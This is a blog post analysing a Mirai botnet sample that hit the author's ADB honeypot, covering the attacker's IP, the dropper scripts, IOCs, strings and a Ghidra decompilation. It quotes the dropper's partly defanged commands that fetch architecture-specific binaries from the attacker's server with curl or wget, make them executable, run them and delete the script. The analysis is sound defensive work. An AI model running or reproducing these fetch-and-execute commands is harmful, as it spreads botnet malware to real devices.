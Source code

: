 ```yaml
---
title: Analysis of Mirai Malware
description: Welcome to Hugo Theme Stack
slug: mirai_botnet
date: 2022-01-04 00:00:00+0000
image: https://m.media-amazon.com/images/I/41ZJaKEDzNL._AC_SX355_.jpg
categories:
    - Reverse Engineering
tags:
    - Honeypot
    - Botnet
---
```

## Intro 
I recently found out Google Cloud offers $300 for first time users, so I figured what better way to spend that than deploying a honeypot? While this blog post won't go into detail on deploying one yourself (keep at eye on my [docs](/docs/welcome) for a that) it will go into detail analyzing a malware sample that I discovered being deployed against it.

<!--truncate-->

## Timeline and Recon
On January 4th 2022 at ~20:30 UTC my honeypot deployed in Oregon was attacked by 205.185.123.62 hosted in [Las Vegas, Nevada.](https://www.iplocationtools.com/205.185.123.62)  It's hosted by "Frantech Solutions" which a cursoury google search gives results such as "FranTech Solutions is **a high fraud risk ISP**.." and [scamalytics](https://scamalytics.com/ip/isp/frantech-solutions) gives it a score of 64.

My honeypot was attacked a total of 24 times from this IP address. Starting at 20:30 UTC and ending at 11:00 UTC. 

## Attack Vector
This attack was caught by the [ADBHoney](https://github.com/huuck/ADBHoney) service running on my honeypot. ADBHoney describes itself as a "Low interaction honeypot designed for Android Debug Bridge over TCP/IP." Now I have some experience with ADB in a prior CTF so I understood a small bit of what this honeypot does. ADB is the Andriod Debug Bridge. It's essentially a protocol/tool that allows developers to communicate with andriod devices. It's used prominately in the emulation part of Andriod Studio. Unfortunately for us, the TCP section of the ADB protocol **does not** have any kind of authentication, leaving it open to attacks. This is what the honeypot sets up to gather samples.

## Payload

![image](initial_payload.png)
*Figure 1: Inital Attack*

As we can see in Figure 1, the inital attack involves moving into the tmp directory, using [busybox](https://busybox.net/) to execute wget to get another sample and executes it. It repeats this twice, opting for curl for the second sample. Switching tools like that is common in malware droppers, allowing it to be ran on more hosts. A potential target could be missing either curl or wget, but missing both would be unlikely. Both **w.sh** and **c.sh** are essentially the same file as seen below. The only difference being what tool is used to download the next stage.


![image](wget.png)
*Figure 2: wget method*

![image](curl.png)
*Figure 3: curl method*

Here we can see how the actual malware sample is being downloaded. What makes this particular malware sample interesting is how it has different exectuables for a large set of instruction sets, ranging from ARM to SH4 to MIPS and even sparc. The first part of each line is downloading the malware `curl htt[p]s://209.141.33.122/arm`, then setting it as executable `chmod 777 arm`, then executing it with the argument of "android" `./arm android`. The final part of the script `rm $0` is deleting the script that was just ran in an effort to evade analysis. 

## Detection Rate and VirusTotal

Uploading the MIPS sample to [VirusTotal](https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection) gives it a detection ratio of 36/56 and most AV vendors classify this sample as belonging to the [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware)) botnet. It was first seen on December 29th, 2021.  

VirusTotal Link: https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection  

## IOCs
If you see network activity to these IPs/Domains or system activity relating to them, you might be infected.  
IPs: 209.141.33.122  
Domains: bots1.firewalla1337.cc, scan1.firewalla1337.cc  
System Activity: Creation of binaries in `/data/local/tmp` with the names of common instruction sets. Execution of binaries with the argument of `android`.  
## Analysis

Note: My reversing skills are still in its infancy, so please bear with me.

The first thing I did to this binary was run strings against it. This gave me some interesting findings seen below:

### Strings
`/dev/null`  
`POST /cdn-cgi/`   
`HTTP/1.1\r\nUser-Agent:`   
`\r\nHost:`   
`Cookie: `    
`bots1.firewalla1337.cc`   
`209.141.33.122`   
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345678`   
`dadlcldadg`    
`scan1.firewalla1337.cc`    

Lets open this sample in ghidra and look into it a bit further.

The only function I could make sense of was what to me looks like a domain resolution function here:
```c
void FUN_00410544(void)

{
  byte *pbVar1;
  uint uVar2;
  undefined2 *puVar3;
  int iVar4;
  
  pbVar1 = (byte *)FUN_00411908("bot[s]1.firewalla1337.cc");
  if (pbVar1 != (byte *)0x0) {
    iVar4 = *(int *)(pbVar1 + 4);
    uVar2 = FUN_00411518();
    if (*pbVar1 == 0) {
      trap(0x1c00);
    }
    DAT_0045d784 = *(undefined4 *)((uVar2 % (uint)*pbVar1) * 4 + iVar4);
    FUN_0041189c(pbVar1);
    FUN_00414e24(1);
    puVar3 = (undefined2 *)FUN_00414d0c(1,0);
    DAT_0045d782 = *puVar3;
                    /* WARNING: Could not recover jumptable at 0x00410634. Too many branches */
                    /* WARNING: Treating indirect jump as call */
    FUN_00414d40(1);
    return;
  }
  DAT_0045d784 = FUN_00417c20("209.1[4]1.33.122");
  return;
}
```
*Brackets in IP address and Domain added by myself*

Both the domain name and IP address are hardcoded, but these are both the same address of the machine where the attack originated from meaning we dont have the C2's address.

There are references to POSTs and setting URL variables in the malware which tells me that's most likely the way communication is handled between the C2 and the bots.  

## Closing Thoughts

Unfortunately this is the extent of my analysis of this sample. My reversing skills arent where they should be in order to properly reverse this sample. I would try dynamic analysis and see what domains/IPs this sample tries to contact, but the x86 version was not available and I do not have any spare system capable of executing the other instruction sets besides my Raspberry Pi4s, so lookout for a potential part 2 of this post where I execute the malware in a lab environment.

Thank you so much for reading this post. I learned a lot while investigating this sample and hopefully you learned something new reading this blog post. I hope to post more about my activities with my honeypot so keep an eye out for those posts when they drop.   

As always, if you have any feedback please don't hesitate to contact me at [my email.](mailto:nathan@nburns.tech?Subject=Reverse_Blogpost)

Nathan Burns